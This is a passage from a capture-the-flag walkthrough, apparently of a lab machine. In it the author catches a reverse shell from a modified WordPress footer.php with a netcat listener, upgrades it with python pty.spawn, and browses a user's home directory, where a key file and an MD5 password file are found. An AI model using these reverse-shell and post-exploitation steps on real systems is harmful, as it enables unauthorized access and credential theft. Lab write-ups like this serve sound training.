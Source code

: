 I created a random page called `shell` in the wordpress `add page` menu, so I know the `footer.php` gets loaded, "view page" and you pop the shell:

```bash
443 💀 ± ➤ sudo rlwrap nc -lvrp 443
listening on [any] 443 ...
10.10.243.224: inverse host lookup failed: Unknown host
connect to [10.11.55.83] from (UNKNOWN) [10.10.243.224] 51517
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 00:09:03 up  1:45,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

stabilize with python

```bash
$
which python
/usr/bin/python
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$
```

find the flag

```bash
ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
cd /home
cd /home
ls
ls
robot
cd robot
cd robot
ls
ls
key-2-of-3.txt  password.raw-md5
cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
id;whoami
id;whoami
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon
daemon@linux:/home/robot$
```
